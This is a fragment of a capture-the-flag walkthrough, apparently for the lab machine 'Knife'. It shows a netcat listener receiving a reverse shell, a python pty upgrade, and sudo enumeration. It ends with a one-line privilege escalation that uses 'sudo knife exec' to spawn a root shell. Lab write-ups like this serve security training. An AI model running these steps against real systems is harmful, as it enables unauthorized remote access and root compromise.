 # Getting a Shell

![[Pasted image 20211227011119.png]]


```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.242] 40640
bash: cannot set terminal process group (970): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ sudo -l 
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/$ 
```

### Getting Root

``` bash
sudo knife exec -E 'exec "/bin/sh"'
```

![[Pasted image 20211227011345.png]]

